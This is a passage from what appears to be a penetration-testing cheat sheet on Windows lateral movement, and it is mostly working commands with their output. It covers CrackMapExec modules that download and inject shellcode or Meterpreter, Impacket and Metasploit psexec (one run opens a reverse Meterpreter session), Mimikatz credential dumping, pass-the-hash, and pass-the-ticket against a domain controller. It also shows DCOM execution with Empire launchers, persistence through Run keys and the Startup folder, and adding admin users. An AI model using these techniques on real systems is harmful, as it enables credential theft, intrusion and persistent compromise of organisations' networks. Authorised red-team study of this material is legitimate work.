  --wdigest {enable,disable}
                        Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
  Mapping/Enumeration:
  Options for Mapping/Enumerating

  --shares              Enumerate shares and access
  --uac                 Checks UAC status
  --sessions            Enumerate active sessions
  --disks               Enumerate disks
  --users               Enumerate users
  --rid-brute [MAX_RID]
                        Enumerate users by bruteforcing RID's (default: 4000)
  --pass-pol            Dump password policy
  --lusers              Enumerate logged on users
  --wmi QUERY           Issues the specified WMI query
  --wmi-namespace NAMESPACE
                        WMI Namespace (default: //./root/cimv2)

  Command Execution:
  Options for executing commands

  --exec-method {smbexec,wmiexec,atexec}
                        Method to execute the command. Ignored if in MSSQL mode (default: wmiexec)
  --force-ps32          Force the PowerShell command to run in a 32-bit process
  --no-output           Do not retrieve command output
  -x COMMAND            Execute the specified command
  -X PS_COMMAND         Execute the specified PowerShell command


Modules in crackmapexec

::

 crackmapexec -L
 06-05-2016 14:08:03 [*] empire_exec          Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
 06-05-2016 14:08:03 [*] getgroups            Wrapper for PowerView's Get-NetGroup function
 06-05-2016 14:08:03 [*] shellinject          Downloads the specified raw shellcode and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
 06-05-2016 14:08:03 [*] com_exec             Executes a command using a COM scriptlet to bypass whitelisting
 06-05-2016 14:08:03 [*] tokens               Enumerates available tokens using Powersploit's Invoke-TokenManipulation
 06-05-2016 14:08:03 [*] getgroupmembers      Wrapper for PowerView's Get-NetGroupMember function
 06-05-2016 14:08:03 [*] mimikatz             Executes PowerSploit's Invoke-Mimikatz.ps1 script
 06-05-2016 14:08:03 [*] peinject             Downloads the specified DLL/EXE and injects it into memory using PowerSploit's Invoke-ReflectivePEInjection.ps1 script
 06-05-2016 14:08:03 [*] tokenrider           Allows for automatic token enumeration, impersonation and mass lateral spread using privileges instead of dumped credentials
 06-05-2016 14:08:03 [*] metinject            Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
 06-05-2016 14:08:03 [*] getcomputers         Wrapper for PowerView's Get-NetGroup function
 06-05-2016 14:08:03 [*] KTHXBYE!

Using a module

Simply specify the module name with the -M flag:

::

 crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -M mimikatz
 06-05-2016 14:13:59 CME          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)

Use the -M flag to specify the module and the --show-options argument to view the module's supported options:

::
 
 #~ crackmapexec -M mimikatz --show-options
 06-05-2016 14:10:33 [*] mimikatz module options:
 COMMAND Mimikatz command to execute (default: 'sekurlsa::logonpasswords')

Using module options
Module options are specified with the -o flag. All options are specified in the form of KEY=value (msfvenom style)

::

 crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND=privilege::debug

Impacket psexec/ smbexe/ wmiexec
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Impacket psexec

  ::

   ./psexec.py -debug Admini:Password@10.0.X.X

   Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies
 
   [*] Trying protocol 445/SMB...
 
   [*] Requesting shares on 10.0.5.180.....
   [*] Found writable share ADMIN$
   [*] Uploading file kBibbkKL.exe
   [*] Opening SVCManager on 10.0.5.180.....
   [*] Creating service cvZN on 10.0.5.180.....
   [*] Starting service cvZN.....
   [-] Pipe not ready, aborting
   [*] Opening SVCManager on 10.0.5.180.....
   [*] Stoping service cvZN.....
   [*] Removing service cvZN.....
   [*] Removing file kBibbkKL.exe.....

* Impacket smbexec

 ::

  ./smbexec.py -debug Admini:Password@10.0.5.180

  Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies

  [+] StringBinding ncacn_np:10.0.5.180[\pipe\svcctl]
  [+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
  [!] Launching semi-interactive shell - Careful what you execute

  C:\Windows\system32>ipconfig
  [+] Executing %COMSPEC% /Q /c echo ipconfig ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat

  Windows IP Configuration


  Ethernet adapter Local Area Connection:

  Connection-specific DNS Suffix  . : 
  Link-local IPv6 Address . . . . . : fe80::4546:b672:307:b488%10
  IPv4 Address. . . . . . . . . . . : 10.0.X.XX
  Subnet Mask . . . . . . . . . . . : 255.255.254.0
  Default Gateway . . . . . . . . . : 10.0.X.1

  Tunnel adapter isatap.{EB92DEE7-521B-4E14-84C2-0E9B9E96563E}:

  Media State . . . . . . . . . . . : Media disconnected
  Connection-specific DNS Suffix  . : 

  Tunnel adapter Local Area Connection* 11:

  Media State . . . . . . . . . . . : Media disconnected
  Connection-specific DNS Suffix  . : 

  C:\Windows\system32>

* Impacket wmiexec

 ::

  Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
  
  usage: wmiexec.py [-h] [-share SHARE] [-nooutput] [-debug]
                    [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                    [-dc-ip ip address]
                    target [command [command ...]]

  Executes a semi-interactive shell using Windows Management Instrumentation.

  positional arguments:
    target                [[domain/]username[:password]@]<targetName or address>
    command               command to execute at the target. If empty it will
                          launch a semi-interactive shell

  authentication:
    -hashes LMHASH:NTHASH
                          NTLM hashes, format is LMHASH:NTHASH
    -no-pass              don't ask for password (useful for -k)
    -k                    Use Kerberos authentication. Grabs credentials from
                          ccache file (KRB5CCNAME) based on target parameters.
                          If valid credentials cannot be found, it will use the
                          ones specified in the command line
    -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                          bits)
    -dc-ip ip address     IP Address of the domain controller. If ommited it use
                          the domain part (FQDN) specified in the target
                          parameter

 Example with password:

 ::

  wmiexec.py -debug Administrat0r:Passw0rd\!\!@10.0.5.180

  Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

  [*] SMBv2.1 dialect used
  [+] Target system is 10.0.5.180 and isFDQN is False
  [+] StringBinding: \\\\xxxxHBKS1739[\\PIPE\\atsvc]
  [+] StringBinding: xxxxhbks1739[49155]
  [+] StringBinding: 10.0.5.180[49155]
  [+] StringBinding chosen: ncacn_ip_tcp:10.0.5.180[49155]
  [!] Launching semi-interactive shell - Careful what you execute
  [!] Press help for extra shell commands
  C:\>hostname
  xxxxhbks1739

  C:\>whoami
  xxxxhbks1739\administrat0r

  C:\>

 Example with hashes:
 ::

    wmiexec.py -debug -hashes xxxxxxxxxxxxxx:xxxxxxx  Administrat0r@10.0.5.180
  
  

Metasploit psexec
^^^^^^^^^^^^^^^^^^^

Metasploit psexec have three methods to invoke, 

::

   msf exploit(psexec) > show targets 

   Exploit targets:

   Id  Name
   --  ----
    0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload


Let's first try with target 2: Native upload

::

  msf exploit(psexec) > set target 2
  target => 2

  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Uploading payload...
  [*] 10.0.5.180:445 - Created \hnFrgUVk.exe...
  [-] 10.0.5.180:445 - Service failed to start - ACCESS_DENIED
  [*] 10.0.5.180:445 - Deleting \hnFrgUVk.exe...
  [*] Exploit completed, but no session was created.


We can see that the exploit was completed however, no session was created. Also the antivirus provided an alert.

::
  
 Datei "C:\Windows\hnFrgUVk.exe" belongs to virus/spyware 'Troj/Swrort-K'.

Let's try with target 1, the powershell 
  
::

  msf exploit(psexec) > set smbdomain .
  smbdomain => .
  msf exploit(psexec) > set smbuser Administrat0r
  smbuser => Administrat0r
  msf exploit(psexec) > set smbpass Passw0rd!!
  smbpass => Passw0rd!!
  msf exploit(psexec) > set rhost 10.0.5.180
  rhost => 10.0.5.180
  msf exploit(psexec) > run 

  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Selecting PowerShell target
  [*] 10.0.5.180:445 - Executing the payload...
  [+] 10.0.5.180:445 - Service start timed out, OK if running a command or non-service executable...
  [*] Exploit completed, but no session was created.
  msf exploit(psexec) > run 
  
  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Selecting PowerShell target
  [*] 10.0.5.180:445 - Executing the payload...
  [+] 10.0.5.180:445 - Service start timed out, OK if running a command or non-service executable...
  [*] Sending stage (957487 bytes) to 10.0.5.180
  [*] Meterpreter session 1 opened (10.11.43.116:4444 -> 10.0.5.180:64783) at 2017-02-20 16:31:41 +0530
  
  meterpreter > 

Let's try also with target 3: MOF Upload

:: 

   msf exploit(psexec) > set target 3
   target => 3

   [*] Started reverse TCP handler on 10.11.43.116:4444 
   [*] 10.0.5.180:445 - Connecting to the server...
   [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
   [*] 10.0.5.180:445 - Trying wbemexec...
   [*] 10.0.5.180:445 - Uploading Payload...
   [*] 10.0.5.180:445 - Created %SystemRoot%\system32\KiaHTgBg.exe
   [*] 10.0.5.180:445 - Uploading MOF...
   [*] 10.0.5.180:445 - Created %SystemRoot%\system32\wbem\mof\5SZ1WZENmHyays.MOF
   [*] Exploit completed, but no session was created.
 

**Working of MSF PSexec - Native Upload**

Jonathan has already written awesome detailed blog `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_ Working of MSF PSExec has been taken from his blog directly.

While similar in functionality to Sysinternal’s PsExec, the Metasploit Framework’s PSExec Module has a few key differences and at a high-level performs the following actions.  By default, the module takes the following actions:

* Creates a randomly-named service executable with an embedded payload
* Connects to the hidden ADMIN$ share on the remote system via SMB
* Drops malicious service executable onto the share
* Utilizes the SCM to start a randomly-named service
* Service loads the malicious code into memory and executes it
* Metasploit payload handler receives payload and establishes session
* Module cleans up after itself, stopping the service and deleting the executable

There is more flexibility with the Metasploit’s PSExec in comparison to Microsoft’s tool.  For instance, the default location of the malicious service executable can be modified from the hidden ADMIN$ to C$ or even another shared folder on the target machine.  Names of the service executable and associated service can also be changed under the module’s Advanced settings.

However, the most important modification that a penetration tester can make is creating and linking to a custom service executable instead of relying on the executable templates provided by the Metasploit Framework.  Failure to do so greatly increases the risk of detection by the target system’s anti-virus solution once the executable is dropped to disk. 

**Working of MSF PSExec - Powershell**

Details taken directly from Jonathan blog `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_

At a high-level, the psexec_psh module works as follows:

* Embed stager into a PowerShell script that will inject the payload into memory
* Compress and Base64 encode the PowerShell script
* Wrap encoded script into a PowerShell one-liner that decodes and deflates
* Connect to ADMIN$ share on target machine over SMB and run the one-liner
* Embedded script is passed into memory via PowerShell’s Invoke-Expression (IEX)
* Script creates a new service and passes stager payload into it
* Metasploit payload handler receives payload and establishes session
* Module cleans up after itself by tearing down the service


Sysinternals psexec
^^^^^^^^^^^^^^^^^^^

Microsoft Sysinternal tool psexec can be downloaded from `PsExec <https://technet.microsoft.com/en-us/sysinternals/pxexec.aspx>`_. Mark has written a good article on how psexec works is `PsExec Working <http://windowsitpro.com/systems-management/psexec>`_.

::

 psexec.exe \\Computername -u DomainName\username -p password <command>
 command can be cmd.exe/ ipconfig etc.

**Working of Microsoft PSExec**

The below details are taken from Jonathan blog on `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_ 

At a high-level, the PsExec program works as follows:

* Connects to the hidden ADMIN$ share (mapping to the C:\Windows folder) on the remote system via SMB
* Utilizes the Service Control Manager (SCM) to start the PsExecsvc service and enable a named pipe on the remote system
* Input/output redirection of the console is achieved via the created named pipe

**Sysinternal PSExec with hashes**


Sysinternal PSExec is a tool built to assist system administrators. In order to use PsExec with captured hashes, we would require Windows Credential Editor (WCE).  This would require us to drop another executable to disk and risk detection. Fuzzynop has provided a tutorial `Pass the Hash without Metasploit <http://fuzzynop.blogspot.in/2012/09/pass-hash-without-metasploit.html>`_ 

* Change the current NTLM credentials

 ::

  wce.exe -s <username>:<domain>:<lmhash>:<nthash>

 Example:

 ::

  C:\Users\test>wce.exe -s testuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537

  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.

  Changing NTLM credentials of current logon session (00024E1Bh) to:
  Username: testuser
  domain: amplialabs
  LMHash: 01FC5A6BE7BC6929AAD3B435B51404EE
  NTHash: 0CB6948805F797BF2A82807973B89537
  NTLM credentials successfully changed!


  C:\Users\test> 

 
* Run PSExec normally

 ::

  psexec \\remotecomputer <commandname>

 If you omit a user name, the process will run in the context of your account on the remote system, but will not have access to network resources (because it is impersonating). Specify a valid user name in the Domain\User syntax if the remote process requires access to network resources or to run in a different account. Since, we are omiting the username, it would run in the context of the current username ( The one we have changed with the help of WCE )


Task Scheduler
^^^^^^^^^^^^^^
If you are the administrator of the remote machine and using runas /netonly, we can utilize AT to run commands remotely. Using AT, a command to be run at designated time(s) as SYSTEM.

Example:

::

 AT \\REMOTECOMPUTERNAME 12:34 "command to run"

::

 AT \\REMOTECOMPUTERNAME 12:34 cmd.exe \c "command to run"
 
 "command to run" can be web-delivery string or powershell empire string.

If we need to delete the AT jobs, we can use

::

 AT \\REMOTECOMPUTERNAME id /delete /yes

However, sometimes doing it remotely, we need to figure out the time of the remote computer, we can utilize NET TIME

::

 NET TIME \\REMOTECOMPUTERNAME

Scheduled Tasks
^^^^^^^^^^^^^^^^

`Schtasks <https://technet.microsoft.com/en-us/library/cc725744(v=ws.11).aspx>`_ Schedules commands and programs to run periodically or at a specific time. Adds and removes tasks from the schedule, starts and stops tasks on demand, and displays and changes scheduled tasks. Schtasks replaces At.exe, a tool included in previous versions of Windows. Although At.exe is still included in the Windows Server 2003 family, schtasks is the recommended command-line task scheduling tool.

::

 schtasks /create /sc <ScheduleType> /tn <TaskName> /tr <TaskRun> [/s <Computer> [/u [<Domain>\]<User> [/p <Password>]]] [/ru {[<Domain>\]<User> | System}] [/rp <Password>] [/mo <Modifier>] [/d <Day>[,<Day>...] | *] [/m <Month>[,<Month>...]] [/i <IdleTime>] [/st <StartTime>] [/ri <Interval>] [{/et <EndTime> | /du <Duration>} [/k]] [/sd <StartDate>] [/ed <EndDate>] [/it] [/z] [/f]

 /sc <ScheduleType>               : Specifies the schedule type. Valid values are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE.
 /tn <TaskName>                   : Specifies a name for the task. 
 /tr <TaskRun>                    : Specifies the program or command that the task runs. Type the fully qualified path and file name of an executable file, script file, or batch file. If you omit the path, schtasks assumes that the file is in the SystemRoot\System32 directory.
 /s <Computer>                    : Schedules a task on the specified remote computer. Type the name or IP address of a remote computer (with or without backslashes). The default is the local computer.
 /u [<Domain>\]<User>             : Runs this command with the permissions of the specified user account. The default is the permissions of the current user of the local computer. 
 /p <Password>                    : Provides the password for the user account specified in the /u parameter. If you use the /u parameter, but omit the /p parameter or the password argument, schtasks prompts you for a password and obscures the text you type
 /ru {[<Domain>\]<User> | System} : Runs the task with permissions of the specified user account. By default, the task runs with the permissions of the current user of the local computer, or with the permission of the user specified by the /u parameter, if one is included. The /ru parameter is valid when scheduling tasks on local or remote computers.
 /rp <Password>                   : Provides the password for the user account that is specified in the /ru parameter. If you omit this parameter when specifying a user account, SchTasks.exe prompts you for the password and obscures the text you type. Do not use the /rp parameter for tasks run with System account credentials (/ru System). The System account does not have a password and SchTasks.exe does not prompt for one.


Example:

* Create new task and execute it

 ::

   schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
   schtasks /run /tn foobar /S host

* Delete the task after it is executed

 ::

  schtasks /F /delete /tn foobar /S host


Service Controller (SC)
^^^^^^^^^^^^^^^^^^^^^^^

Communicates with the Service Controller and installed services. SC.exe retrieves and sets control information about services. Armitage Hacker has mentioned this at his blog `Lateral Movement with High Latency <https://blog.cobaltstrike.com/2014/04/30/lateral-movement-with-high-latency-cc/>`_ 

* Create a new service named foobar

 ::

  sc \\host create foobar binpath= “c:\windows\temp\foobar.exe”

* Start the service

 ::

  sc \\host start foobar


 The sc command requires an executable that responds to Service Control Manager commands. If you do not provide such an executable, your program will run, and then immediately exit. 

* Delete the service after it runs 

 ::

  sc \\host delete foobar

Remote Registry
^^^^^^^^^^^^^^^^

A command to be run or DLL to be loaded when specific events occur, such as boot or login or process execution, as active user or SYSTEM.

Example:
::

 REG ADD \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry /t REG_SZ /d "command to run"
 
Command will run every time a user logs in as the user.

We can query the remote registry also using

::

 REG QUERY \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry

We can delete the remote registry using

::

 REG DELETE \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry


Remote File Access
^^^^^^^^^^^^^^^^^^^

We can copy a launcher.bat file with powershell empire and drop it Startup folder, so that it executes every time a user logs in as a user.

Example:

::

 xcopy executabletorun.exe "\\REMOTECOMPUTERNAME\C$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\launcher.bat"

WinRM
^^^^^

Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilizing WMI, it can be thought of as an HTTP based API for WMI. WinRM will listen on one of two ports: 5985/tcp (HTTP) and 5986/tcp (HTTPS)

If one of these ports is open, WinRM is configured and you can try entering a remote session.

* Enabling PS-Remoting:
 
 Configure the remote machine to work with WinRM. We need to run the below command from elevated powershell prompt 
 ::

  PS C:\Windows\system32> Enable-PSRemoting -Force
  WinRM already is set up to receive requests on this machine.
  WinRM has been updated for remote management.
  Created a WinRM listener on HTTP://* to accept WS-Man requests to any IP on this machine.
  WinRM firewall exception enabled.

* Testing the WinRM Connection : We can use the Test-WSMan function to check if target is configured for WinRM. It should return information returned about the protocol version and wsmid

 :: 

  
  PS C:\> Test-WSMan XXXX-APPS03.example.com
  wsmid           : http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd
  ProtocolVersion : http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd
  ProductVendor   : Microsoft Corporation
  ProductVersion  : OS: 0.0.0 SP: 0.0 Stack: 2.0

* Execute commands using PowerShell Invoke-Command on the target over WinRM. 

 :: 

  PS C:\> Invoke-Command -ComputerName XXXX-APPS03.xxx.example.com -ScriptBlock {ipconfig /all}

  Windows IP Configuration

   Host Name . . . . . . . . . . . . : XXXX-Apps03
   Primary Dns Suffix  . . . . . . . : xxx.example.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : xxx.example.com
                                       example.com

* Interactive PowerShell session:

 ::

  PS C:\> Enter-PSSession -ComputerName XXXX-APPS03.xxx.example.com
  [XXXX-APPS03.xxx.example.com]: PS C:\Users\dummyuser\Documents> whoami
  example.com\dummyuser

The above commands are executed using runas /netonly if you want to run it with the credentials we can use 

:: 

 -credential domainname\username switch

Also, if you want to disable the psremoting/ WinRM, you can utilize `Disable-PSRemoting <https://msdn.microsoft.com/en-us/powershell/reference/4.0/microsoft.powershell.core/disable-psremoting>`_ . However, if you get

::

 PS C:\Windows\system32> Disable-PSRemoting
 WARNING: Disabling the session configurations does not undo all the changes made by the Enable-PSRemoting or
 Enable-PSSessionConfiguration cmdlet. You might have to manually undo the changes by following these steps.
     1. Stop and disable the WinRM service.
     2. Delete the listener that accepts requests on any IP address.
     3. Disable the firewall exceptions for WS-Management communications.
     4. Restore the value of the LocalAccountTokenFilterPolicy to 0, which restricts remote access to members of the Administrators group on the computer.

then follow the `How to revert changes made by Enable-PSRemoting? <https://blogs.technet.microsoft.com/bshukla/2011/04/27/how-to-revert-changes-made-by-enable-psremoting/>`_


WMI
^^^

As per the technet article `Windows Management Instrumentation <https://msdn.microsoft.com/en-us/library/aa394582(v=vs.85).aspx>`_ (WMI) is the infrastructure for management data and operations on Windows-based operating systems. You can write WMI scripts or applications to automate administrative tasks on remote computers.

* Local code execution

 WMI Process Create: The Win32_Process class can be called via WMI to query, modify, terminate, and create running processes.

 ::
  
  wmic path win32_process call create "calc.exe"
  Executing (win32_process)->create()
  Method execution successful.
  Out Paramteres:
  instance of __PARAMETERS
  {
        ProcessId = 2616;
        ReturnValue = 0;
  };

 The command returns the ProcessID and the ReturnValue (0 abcning no errors)

* Remote code execution

  We can use runas command to authenticate as a different user and then execute commands using wmic or use

  ::

   wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"

   instead of computername, we can specify textfile containing computernames and specify using
   wmic /node:@textfile

 Refer Rop-Nop blog `Part3: Wmi and winrm <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/>`_

DCOM 
^^^^

The below is as per my understanding (I might be wrong), if so, please do correct me. After reading `Lateral Movement Using the MMC20.Application COM Object <https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/>`_ and `Lateral Movement Via DCOM Round 2 <https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/>`_ I believe there are three ways to do lateral movement by using DCOM

* DCOM applications via MMC Application Class (MMC20.Application) : This COM object allows you to script components of MMC snap-in operations. there is a method named “ExecuteShellCommand” under Document.ActiveView.

 ::

  PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IPAddress"))
  PS C:\> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)

  For Empire:
  $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc DFDFSFSFSFSFSFSFSDFSFSF < Empire encoded string > ","7")

 Tanoy has written a simple wrapper/ function `Invoke-MMC20RCE.ps1 <https://raw.githubusercontent.com/n0tty/powershellery/master/Invoke-MMC20RCE.ps1>`_ which might be useful.

* DCOM via ShellExecute

 ::

  $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  $item = $obj.Item()
  $item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
  ^ The above should run a calc

* DCOM via ShellBrowserWindow ( Windows 10 Only, the object doesn't exists in Windows 7 )

 ::

  $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  $obj.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
  ^ The above should run a calc


All the above three method, assumes that either you are running the commands as administrator of the remote machine. And you have achieved it either by using runas /netonly or logging in as that user.


While executing the above if you get the below error, it means, we do not have access to execute object remotely which results in “Access Denied”:

::

  $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  Exception calling "CreateInstance" with "1" arguement(s) "Retrieving the COM class factory for remote component with CLSID {} from machine IPAddress failed due to the following error 80070005.

  At line:1 char:1
  + $obj = [System.Activator]::CreateInstance($com)
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    +CategoryInfo             : NotSpecified: (:), MethodInvocationException
    +FullyQualifiedErrorID    : UnauthorizedAccessException


Mimikatz PTH/ PTT
^^^^^^^^^^^^^^^^^^

If we do not have plaintext credentials, we can use NTLM hashes to get a shell

* **Pass the Hash**:  Using a technique called Overpass-the-Hash we can take the NTLM hash and use it to obtain a Ticket Granting Ticket (TGT) via Kerberos\\ Active Directory. With a TGT you can masquerade as the administrative user and access any domain resource that admin user has access to. 

 ::

  Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”

 A new command prompt session opens. This new command prompt injected Admin user credentials into it!

 This can be verified by checking 
 
 * If we have access to the C drive of the remote machine

  ::

   dir \\remote-machine\c$

 * Inspect tickets in Overpass-the-hash command prompt: From the new command prompt that opened from the Overpass-the-hash attack, execute the following:

  :: 

   klist

  We should be able to see the ticket of the admin user.
 

* **Pass the ticket**

 Let's assume, we got credentials of Local Admin A, by which we can login in to the machine on which Domain Admin is logged on. We would utilize pass the ticket for this

 * Harvest Credentials

  * Execute Mimikatz against Admin-PC ( on which domain admin is logged on )

   From the new command prompt, running in the context of admin user, go to the part of the filesystem where Mimikatz is located from that library. Run the following commands:

   ::

    xcopy mimikatz \\admin-pc\c$\temp
  
   Next, execute MimiKatz remotely to export all Kerberos tickets from Admin-PC:

   ::
   
    psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug”   “sekurlsa::tickets /export” ^& “exit”)

   Copy these tickets back to Victim-PC:

   ::

    xcopy \\admin-pc\c$\temp c:\temp\tickets


   We successfully executed Mimikatz remotely, exporting all Kerberos tickets from Admin-PC. We copied back the results to Victim-PC, and now has one of the Domain Admin credentials without having to exploit his computer!

  * Locate the Domain Admin user TGT
    
   Locate the kirbi files which are not Domain Admin user (i.e. “ADMIN-PC$”). Delete those and keep the Domain Admin user tickets.  

  * Pass-the-Ticket

    We can pass the Domain Admin User tickets, literally, into memory and use them to gain access to resources as if you were Domain Admin. The attacker is ready to import them into Victim-PC’s memory, to get the credentials to access sensitive resources.

    From an elevated command prompt, where Mimikatz is located on the filesystem, execute the following:

    ::
        
     mimikatz.exe “privilege::debug” “kerberos::ptt c:\temp\tickets” “exit”

    Ensure that the DomainAdminUser@krbtgt-Domainname tickets were successfully imported. Now, let’s validate that the right tickets are in the command prompt session.

  * Validate the ticket was imported

   Execute the following in the same elevated command prompt:

   :: 

    klist

   The attacker now successfully imported the harvested ticket into the session, and will now leverage their new privilege and access to access the domain controller’s C drive

  * Access contents of dc1\c$ with DomainAdminUser credential

   Execute the following in the same command prompt to which the tickets were just imported.

   ::

    dir \\dc1\c$

   The attacker is now, for all intents and purposes, DomainAdminUser, in the digital world. Only administrators should be able to access the root of the domain controller. The attacker is using legitimate credentials, can access legitimate resources and executing legitimate executables.


Both Mimikatz PTH, PTT has been taken from the Microsoft `Advanced Threat Analytics Attack Simulation Playbook <https://gallery.technet.microsoft.com/Advanced-Threat-Analytics-8b0a86bc>`_

xfreerdp/ Remote Desktop
^^^^^^^^^^^^^^^^^^^^^^^^

* rdesktop

 ::

  rdesktop IPAddress

* Pass the Hash with Remote Desktop: If we have a hash of a user, we can use xfreerdp to have remote desktop

 ::

  xfreerdp /u:user /d:domain /pth:hash /v:IPAddress

 More information refer `Passing the Hash with Remote Desktop <https://www.kali.org/penetration-testing/passing-hash-remote-desktop/>`_ 


 .. Todo ::

   ----dsquery !! SubMSI ? MSUtil to use RCE?
   ----Any commands if net, or powershell is blocked? or PV/ BH is caught? 


Useful Stuff:
--------------

Add/ remove/ a local user
^^^^^^^^^^^^^^^^^^^^^^^^^^

:: 

 net user /add [username] [password]

::

 net user John xxxxxxxxx /ADD

 C:\>net user /add John *
 Type a password for the user: 
 Retype the password to confirm:
 The command completed successfully.

Add a domain user
^^^^^^^^^^^^^^^^^^^^

::

 net user username password /ADD /DOMAIN

Add / remove a local user to administrator group
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 net localgroup administrators [username] /add


Accessing Remote machines:
^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Windows 

 Setup an SMB connection with a host
 ::
 
  PS C:\> net use \\DC.xxxxxxxx.net
  The command completed successfully.

 Check for access to admin shares ("C$", or "ADMIN$"), if we are admin:

 ::

  PS C:\> dir \\DC.xxxxxxxxxx.net\C$\Users

  Directory: \\DC.xxxxxxxx.net\C$\Users 
  
 
  Mode                LastWriteTime     Length Name
  ----                -------------     ------ ----
  d----        20.11.2016     09:35            axx.xxxxxx
  d----        21.11.2010     06:47            Administrator
  d-r--        14.07.2009     06:57            Public  


 If we are not admin, we might get a access denied:

 ::

  PS C:\> dir \\DC.xxxxxxxxxx.net\C$\Users
  Access is denied.
  
 Check your net connections: 

 ::
 
  PS C:> net use
  New connections will be remembered.  
  
  Status       Local     Remote                    Network 
  
  -------------------------------------------------------------------------------
  OK                     \\DC.xxxxxxxx.net\IPC$   Microsoft Windows Network
  The command completed successfully.
 
 However, if administrator on DC.xxxxx.net runs a net session command, the connections would be detected. For that issue 
 ::
 
  net use /delete *
 
 On windows, after running this, if we execute
 
 ::
 
  //IPAddress/C$

 we should be able to view the directory via windows explorer.

* Linux

 smbclient: We can use smbclient to access the remote computer file-system.

 :: 
   
   smbclient -L hostname -U domainname\\username

   -L|--list This option allows you to look at what services are available on a server. You use it as smbclient -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


 The below will drop you in to command line
 ::

  smbclient \\\\hostname\\C$ -U domainname\\username
  (After entering the password)
  smb: \> ls
  smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Nov 30 20:00:40 2016
